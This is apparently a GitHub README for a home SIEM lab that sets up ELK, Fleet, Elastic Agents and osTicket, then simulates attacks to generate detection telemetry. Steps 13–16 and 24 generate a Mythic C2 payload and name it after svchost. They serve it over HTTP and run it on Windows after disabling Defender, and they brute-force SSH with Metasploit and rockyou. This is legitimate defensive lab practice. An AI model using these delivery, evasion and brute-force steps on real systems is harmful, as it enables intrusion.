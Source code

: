 # 30-Day-On-Prem

## Objective

Implement a comprehensive Security Information and Event Management (SIEM) system on-premises. The project will focus on, deploying and configuring an ELK stack (Elasticsearch, Logstash, Kibana) to collect, process, and visualize security-relevant data, setting up a Fleet Server to manage and monitor Elastic Agents deployed on various systems and keep it all centralized, provisioning Windows and Linux server environments for testing and demonstration purposes, integrating a Mythic C2 server to simulate cyberattacks and assess the SIEM's detection capabilities, ans deploying an OSTicket server for incident management and ticketing. The overall goal is to establish a robust SIEM solution capable of detecting, analyzing, and responding to security threats within the organization.

### Skills Learned

ELK Stack: Elasticsearch, Logstash, and Kibana for data ingestion, processing, and visualization.
Security Information and Event Management (SIEM): Understanding of SIEM concepts, best practices, and use cases.
Network and System Administration: Knowledge of system configurations and troubleshooting techniques.
Security Tools and Technologies: Familiarity with tools like Kali, osTicket, and other security assessment tools.
Problem-solving: Ability to identify and troubleshoot issues related to SIEM deployments and data analysis.
Analytical Thinking: Skill in analyzing large datasets to identify security threats and patterns.
Attention to Detail: Meticulous approach to ensure accurate data collection and analysis.
Continuous Learning: A mindset of staying updated with the latest security threats and technologies.

### Tools Used

Elasticsearch: For storing and analyzing large volumes of data.
Logstash: Collects, processes, and transforms data from various sources.
Kibana: A powerful visualization tool for exploring and analyzing data stored in Elasticsearch.
Beats: Lightweight data shippers (e.g., Filebeat, Auditbeat, Metricbeat) to collect data from various sources.
Threat Intelligence Platforms: Tools to gather and analyze threat intelligence data.
Configuration Management Tools: To automate the deployment and configuration of the SIEM components.


## Steps

1. In Virtual box get your 6 machines ready. 4 ubuntu Libux m 2 Windows servers.<br>
![VMs](https://github.com/user-attachments/assets/a24c743d-907d-4d7e-b02f-e08b3b694833)<br>
*Ref 1: VMs*<br>
2. Set up your NAT network, enter your prefered IPv4 prefic and group your VMs into your newly created NAT network.<br>
![NAT Network](https://github.com/user-attachments/assets/735129b7-a24b-4b65-b076-2e3d48932b45)<br>
*Ref 2: NAT Network*<br>
3. Spin up your machines and update them.
4. Configure SSH port forwarding in your VM software, create one for each VM.<br>
![port-forwarding](https://github.com/user-attachments/assets/ee3278a5-30eb-4ba2-9df2-6be36221ef7f)<br>
*Ref 3: Port Forwarding*<br>
5. Install Elastic and Kibana on your ELK server and Sysmon on your Windows Server. Sudo nano /etc/elasticsearch/elasticsearh.yml > uncomment "network.host" and change it to the VMs ip and uncomment port. Start up elastic.<br>
![start elasticsearch](https://github.com/user-attachments/assets/7c4277af-cca8-466c-a77e-76c862fe3956)<br>
*Ref 4: Start elastic*<br>
6. Install Kibana, update config file > uncomment "server.port" and "server.host" and change it to ip address, same with "server.publicBaseUrl" with <ip address>:5601.<br>
![kibana config](https://github.com/user-attachments/assets/fc12b7e2-62a3-41fa-93bb-f59a48597e37)<br>
*Ref 5: Kibana config*<br>
7. Create encryption keys > cd /usr/share/kibana/bin > sudo ./kibana-encryption-keys generate. Next sudo ./kibana-keystore add <encryption key filename> > encryption key. Start up Kibana.<br>
![kibana generate encrypt keys](https://github.com/user-attachments/assets/0c2e2889-fd62-4d47-bf0a-9859d13167db)<br>
*Ref 6: Generate enctyption keys*<br>
![kibana encryption keys](https://github.com/user-attachments/assets/c8bc5e16-0f93-482e-b8b4-9a5245ef4fba)<br>
*Ref 7: Encryption keys*<br>
![start kibana](https://github.com/user-attachments/assets/81dff932-ce13-4ef2-847c-dc21945a767d)<br>
*Ref 8: Start Kibana*
8. Create a port forward rule on virtualbox(or VMware) to ELK. Create enrollment token > cd/usr/share/elasticsearch/bin. For verification code: cd /usr/share/kibana/bin > sudo ./kibana-verification-code. To login use elastic as username and password from security auto-configuration information("elastic built-in superuser passwrod").<br>
![ELK port forward](https://github.com/user-attachments/assets/5894648f-87b3-4a15-8078-48770b7941ca)<br>
*Ref 9: ELK port forward*<br>
![kibana enrollment key](https://github.com/user-attachments/assets/c175773b-674c-4425-8287-c14e76ed298c)<br>
*Ref 10: Enrollment key*<br>
![kibana verification code](https://github.com/user-attachments/assets/57e5270d-d35d-4cb2-831d-b7988c725d4e)<br>
*Ref 11: Verification code*<br>
9. Setup Fleet Server, Hamburger icon > fleet > add fleet server. Specify name, URL is the ip address of the fleet VM > generate server policy > fleet settings to change port from 443 to 8220 in Edit Fleet Server. Click agents > add fleet server > continue; copy Linux Tar and paste into fleet VM. Continue enrolling elastic agent > enter a policy name > create policy > click Windows tab and copy agent install text > on Windows server VM paste into an admin PowerShell instance. use "--insecure" flag.<br>
![elastic screen](https://github.com/user-attachments/assets/dce33c5a-0715-41f5-bd91-44490badbd7e)<br>
*Ref 12: elastic screen*<br>
![PS insecure agent](https://github.com/user-attachments/assets/233783f1-cc9b-497e-978d-979c0712b4cc)<br>
*Ref 13: insecure flag*<br>
![windows add agent](https://github.com/user-attachments/assets/42dd1a73-a36b-45c9-a653-184ef7baf22f)<br>
*Ref 14: Windows add agent*<br>
![Add Agent success](https://github.com/user-attachments/assets/f65fdb07-289a-42c2-a5be-026e9716dd3c)<br>
*Ref 15: Add Windows agent success*<br>
10. Add and Agent for Linux(Ubuntu) Server > create new agent policy > name it > enroll in fleet > create policy > copy Linux Tar and paste into Linux Server.<br>
![elastic screen](https://github.com/user-attachments/assets/9d84d1dd-1e1d-4594-be5d-4d0fa940a537)<br>
*Ref 16: Elastic screen*<br>
![Fleet](https://github.com/user-attachments/assets/fdbd22f3-b0a0-4bbf-b236-4957421d3883)<br>
*Ref 17: Fleet*<br>
11. Click the Haburger Icon > Integrations > Search "custom windows event logs" > add custom winds event logs > name it, for channel name go to windows server and open event viewer to find sysmon then operational: right-click, properties, "full name" is the channel name > exisiting host under "where to add", ...; win-policy > save and continue.<br>
![Custom windows event logs](https://github.com/user-attachments/assets/03598f24-eb91-4029-8187-3dbb992208cf)<br>
*Ref 18: Custom Windows event logs*<br>
12. On your Windows Server, Event viewer find Windows Defender > operational, properties, copy "full name" and add another custom Windows event logs like above. Enable RDP on Windows Server under remote desktop settings<br>
13. Install docker-compose and make on your mythic vm. Install <a href="https://docs.mythic-c2.net/installation">Mythic</a> then run sudo make. > sudo ./mythic-cli start > cat env, and create another port forwarding rule for Mythic, then install a Mythic agent and C2 profile.<br>
14. Make a Mythic payload by going to payloads > Actions > Generate new payload > Windows > Apollo > include all commands > include http: callback remove the s from hhtps and change it to the mythic vms ip address > create pay load > go to payloads and right click download and copy link address.
![Mythic payload](https://github.com/user-attachments/assets/e6297be7-be64-4034-87a7-abbeebc9950b)<br>
*Ref 19: Mythic payload*<br>
![Mythic agent and profile](https://github.com/user-attachments/assets/371b2f2e-a574-4d49-ab0b-9671ef0b3eda)<br>
*Ref 20: Mythic agent and profile*<br>
![Mythic active callback](https://github.com/user-attachments/assets/114ebab0-2ff4-48ed-b5c6-09cbe672254b)<br>
*Ref 21: Mythic active callback*<br>
15. In the Mythic VM cd into home directory > wget <-link address>; change 8443 to 744. and ip to the mythic vm ip nad --no-check-certificate > mv <file> svchost-<make a filename>.exe < python3 -m http.server 9999
16. Disable Windows Defender on the Windows Server and add an exclusion for the Downloads Folder. In PowerShell invoke-webrequest -uri http://<-mythic vm ip address>:9999/svchost-<filename>.exe -Outfile "(:\Users\Administrator\Downloads\svchost-<filename>.exe" > run the file thats in downloads.
17. Spin up your osTicket VM. Download <a href="https://www.apachefriends.org/download.html">xampp</a> by apache and <a href="https://osticket.com/">osTicket</a>. Click on xampp to install it. Extract all of the osTicket download after you extract the osticket zip in that folder.
![osTicket download](https://github.com/user-attachments/assets/2f9da10e-cc8d-4779-8662-51d54f098e22)<br>
*Ref 22: osTicket download*<br>
18. Navigate to xampp folder, find properties and edit it to change the Domain name to the VMs ip address, do the same to mysqlhost.
19. Open xampp control panel and start apache and mysql, click admin nnext to apache > phpMyAdmin > New, to create a new database > name it > create > home > user accounts > click "root" mext to "localhost" > change password > enter password, click go > login information, under host select "use text field", enter the osTicket VM ip address, enter a password > Go.
20. Navigate to phpMyAdmin folder > make a back of config.inc.php file, open original in notepad > change password of user-root to the one you just created, and add the ip address of the osTicket VM (make sure login hos is your VM ip). Go back to user accounts > root account > databases > select your database under "Add privileges..." > Go > check all > Go.
 ![config inc](https://github.com/user-attachments/assets/c1a85f1b-c435-46a9-99d0-d7142755f0f5)<br>
*Ref 23: config.inc*<br>
21. Navigate to osTicket folder you extracted > copy the "scripts" and "upload" folders and paste into a new folder you create called "osticket" in the htdocs folder under the xampp folder. Access the server/installer in a browser with <-VM ip address >/osticket/upload" > continue > go back to the upload folder in htdocs > include > rename ost-sampleconfig.php to ost-config.php > back to broswer, click continue > fill out the form; use the mysql database you created > click install now, Access system with staff control panel link.<br>
![osticket installer](https://github.com/user-attachments/assets/49bc3fca-1936-41cf-a500-e3de6d48641f)<br>
*Ref 24: osticket installer*<br>
![osticket install form](https://github.com/user-attachments/assets/3b391cd2-5e8d-49e7-8aca-502bcc0d4031)<br>
*Ref 25: osticket install form*<br>
22. In osTicket click manage > API > add new API key > "Ip Address" <ELK Server VM ip,>, select "can create tickets", Elastic connector in Internal notes. > add key > Copy API key.<br>
![osticket login](https://github.com/user-attachments/assets/ba414793-9cc5-4a54-8171-8b52afda1064)<br>
*Ref 26: osTicket login*<br>
23. In Elastic click the hamburger icon > Stack Management > Connectores under alerts and insights > Create connector (enable free trial in manage license) > webhook > Name it, URL: http://<-osticket vm ip>/osticket/upload/api/tickets.xml, none under autentication, add http header; key: X-API-Key, value: paste in osticket API key > Save and test > paste in test payload from <s href="https://github.com/osTicket/osTicket/blob/develop/setup/doc/api/tickets.md">osTicket github</a>. > Run. If you get a connection error go to the osTicket VM > Windows Defender firewall > create an inbound rule: New rule > port > enter 80 , 443 > Allow connection > Name: Allow inbound 80, 443. On osTicket click agent panel > testing API to show test content *Add a port forwarding rule to access from host*
![osTicket ticket generated](https://github.com/user-attachments/assets/bfa7631e-0cc3-416f-bb22-adbda4ec27d2)<br>
*Ref 27: osTicket generated*<br>
24. Generating Telemetry is done by attacking your machines with Kali Linux. As an example for the Linux server bruteforce: In Kali cd /usr/share/wordlists > sudo gunzip rockyou.txt.gz > msfconsole > use auxiliary/scanner/ssh/ssh_login > Set rhosts <-target ip address>, set pass_file /usr/share/wordlists/rockyou.txt > set username: root > run. *Use crowbar for RDP*
![kali scanner](https://github.com/user-attachments/assets/867b3cf9-0f4f-40b3-bff0-403839627245)<br>
*Ref 28: Kali scanner*<br>
25. Head over to Elastic webGUI and click on the hamburger icon > Discover: search for the Kali ip address.
